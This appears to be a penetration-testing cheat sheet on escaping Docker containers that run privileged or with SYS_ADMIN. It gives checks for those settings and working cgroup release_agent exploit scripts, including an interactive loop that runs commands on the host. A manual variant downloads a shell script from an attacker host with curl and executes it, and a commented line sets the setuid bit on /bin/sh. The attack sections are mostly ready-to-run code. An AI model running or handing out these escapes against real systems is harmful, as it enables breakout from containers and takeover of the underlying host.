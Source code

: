 # Docker Escape

## Privileged Docker

### `--privileged` flag

{% tabs %}
{% tab title="PoC" %}
```bash
docker run --rm -it --privileged ubuntu bash
```
{% endtab %}

{% tab title="Verification" %}
For this attack, we need:

* Be **root**.
* Verify that the **Docker** is in **privileged mode** (`--privileged`). To verify this, we can do:

```bash
# Method 1 (It is privileged if the result is greater than 0):
fdisk -l 2>/dev/null | wc -l
# Method 2:
ip link add dummy0 type dummy >/dev/null && echo "[+] Privileged"
ip link delete dummy0 >/dev/null # Clean Up
# Method 3:
https://github.com/stealthcopter/deepce
```
{% endtab %}

{% tab title="Exploit" %}
This capability allows us to do multiple things but let's focus on the ability given to us through "**sys\_admin**" to be able to mount files from the host operating system into the container:

```bash
#!/bin/bash

while true; do
  echo -n "host > "
  read cmd
  d=$(dirname "$(ls -x /s*/fs/c*/*/r* | head -n1)")
  if [ -S "$d" ]; then
    printError "Error: exploit failed (docker too old?)"
    return
  fi
  mkdir -p "$d/w"
  echo 1 >"$d/w/notify_on_release"
  t="$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)"
  touch /o
  echo "$t/c" >"$d/release_agent"
  printf "#!/bin/bash\n%s > %s/o" "$cmd" "$t">/c
  chmod +x /c
  sh -c "echo 0 >$d/w/cgroup.procs"
  sleep 1
  cat /o
  rm /c /o
done
```

{% embed url="https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes" %}
{% endtab %}
{% endtabs %}

### `SYS_ADMIN`, `security-opt` and `apparmor` flags

{% tabs %}
{% tab title="PoC" %}
```bash
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```
{% endtab %}

{% tab title="Verification" %}
For this attack, we need:

* We must be running as **root inside the container**.
* The container must be run with the **SYS\_ADMIN** Linux capability (this allows us to use the `mount` command)
* The container must lack an **AppArmor profile**, or otherwise allow the `mount` syscall.
* The cgroup v1 virtual filesystem must be mounted read-write inside the container.

To verify if we can call the mount command, we can use the capsh binary, but if it does not exist, we can try mounting a drive on the system and see if it allows us:

```bash
# Method 1:
capsh --print | grep sys_admin
# Method 2:
mount
mount /mnt/xvda1 /mnt/host
```


{% endtab %}

{% tab title="Exploit" %}
### Automatic

```bash
#!/bin/bash                                                                                        │~
                                                                                                   │~
while true; do                                                                                     │~
  echo -n "host > "                                                                                │~
  read cmd                                                                                         │~
  mkdir /tmp/cgrp 2>/dev/null ; mount -t cgroup -o rdma cgroup /tmp/cgrp 2>/dev/null ; mkdir /tmp/c│~
grp/x 2>/dev/null                                                                                  │~
  echo 1 > /tmp/cgrp/x/notify_on_release                                                           │~
  host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`                                      │~
  echo "$host_path/c" > /tmp/cgrp/release_agent                                                    │~
  touch /o                                                                                         │~
  printf "#!/bin/bash\n%s > %s/o" "$cmd" "$host_path" > /c                                         │~
  chmod +x /c                                                                                      │~
  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"                                                     │~
  sleep 1                                                                                          │~
  cat /o                                                                                           │~
  rm /c /o                                                                                         │~
done
```

### Manual

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/bash' > /exploit
#echo "chmod +s /bin/sh" >> /exploit
echo "curl http://<LHOST>/shell.sh -o /tmp/shell.sh" >> /exploit
echo "bash /tmp/shell.sh" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
{% endtab %}
{% endtabs %}
